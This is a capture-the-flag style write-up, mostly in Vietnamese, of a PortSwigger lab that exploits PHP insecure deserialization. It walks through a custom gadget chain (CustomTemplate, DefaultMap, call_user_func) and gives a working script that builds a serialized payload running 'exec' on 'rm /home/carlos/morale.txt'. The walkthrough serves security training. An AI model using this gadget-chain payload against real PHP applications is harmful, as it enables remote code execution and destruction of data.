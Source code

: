 # Target Goal: 

This lab uses a serialization-based session mechanism. By deploying a custom gadget chain, you can exploit its insecure deserialization to achieve remote code execution. To solve the lab, delete the `morale.txt` file from Carlos's home directory.

Credentials: `wiener:peter`

# Recon: 

Sau khi login, ta sẽ có session được cấp: 

![image](https://github.com/vanniichan/Portswigger/assets/112863484/4e4c9987-38c4-418c-b3b3-4f790400557c)

Thử đem đi dcode sang b64 và nhận được session được:

![image](https://github.com/vanniichan/Portswigger/assets/112863484/db89515f-b755-4553-afa4-fce4da779aec)

Khi vào `Site map` ta thấy có một path ẩn, send to `Repeater` thì nhận được nội dung sau:

![image](https://github.com/vanniichan/Portswigger/assets/112863484/3413863f-9e6f-42be-8471-49220f6d5a69)

```
<?php

class CustomTemplate {
    private $default_desc_type;
    private $desc;
    public $product;

    public function __construct($desc_type='HTML_DESC') {
        $this->desc = new Description();
        $this->default_desc_type = $desc_type;
        // Carlos thought this is cool, having a function called in two places... What a genius
        $this->build_product();
    }

    public function __sleep() {
        return ["default_desc_type", "desc"];
    }

    public function __wakeup() {
        $this->build_product();
    }

    private function build_product() {
        $this->product = new Product($this->default_desc_type, $this->desc);
    }
}

class Product {
    public $desc;

    public function __construct($default_desc_type, $desc) {
        $this->desc = $desc->$default_desc_type;
    }
}

class Description {
    public $HTML_DESC;
    public $TEXT_DESC;

    public function __construct() {
        // @Carlos, what were you thinking with these descriptions? Please refactor!
        $this->HTML_DESC = '<p>This product is <blink>SUPER</blink> cool in html</p>';
        $this->TEXT_DESC = 'This product is cool in text';
    }
}

class DefaultMap {
    private $callback;

    public function __construct($callback) {
        $this->callback = $callback;
    }

    public function __get($name) {
        return call_user_func($this->callback, $name);
    }
}

?>
```
- Khi 1 object được serialized thông qua CustomTemplate thì `__wakeup()`  → Hàm build_product():

   + Để tạo Product mới thì build_product() khởi tạo object Product($default_desc_type, $desc) → Hàm __construct() của class Product 

   + Bên trong hàm contruct tham chiếu $desc->$default_desc_type (tham số của CustomTemplate)

- Về phía DefaultMap :

   + Chạy hàm get() nếu có thuộc tính không tồn tại trong Object này

   + get() sẽ tiếp tục gọi tới call_user_func()

   + Tại call_user_func(), mọi hàm được truyền vào sẽ thực thi dựa vào tham số $name

-> Nếu $desc là một DefaultMap object và $default_desc_type chính là tham số $name trong hàm __get(), thì $desc->$default_desc_type sẽ trở thành call_user_func($callback, $default_desc_type); 

Và khi callback là 1 hàm như eval hay exec, ta có thể thực thi lệnh OS với câu lệnh đặt ở $default_desc_type.

Chúng ta sẽ tạo 1 object CustomeTemplate như sau:
```
CustomTemplate->default_desc_type = "rm /home/carlos/morale.txt";
CustomTemplate->desc = DefaultMap;
DefaultMap->callback = "exec"
```
Viết script dựng lại các obbject cùng tuộc tính của chúng sau đo sử dụng hàm serialize trong php:
```
<?php

class DefaultMap {
    public $callback;
}

class CustomTemplate {
    public $default_desc_type;
    public $desc;
}

$b = new DefaultMap();
$b->callback = "exec";

$a = new CustomTemplate();
$a->default_desc_type = "rm /home/carlos/morale.txt";
$a->desc = $b;

$payload = serialize($a);
print_r($payload);
?>
```
![image](https://github.com/vanniichan/Portswigger/assets/112863484/f968ede4-5907-4d97-95e6-52d45af8bd5e)

Thay value mà ta ecode được vào web ta được: 

![image](https://github.com/vanniichan/Portswigger/assets/112863484/8e17c7ec-0c77-44f1-84d0-f814ed817559)

# Flag: 

![image](https://github.com/vanniichan/Portswigger/assets/112863484/620ad878-d113-46d1-9f89-37cc3e3ee736)
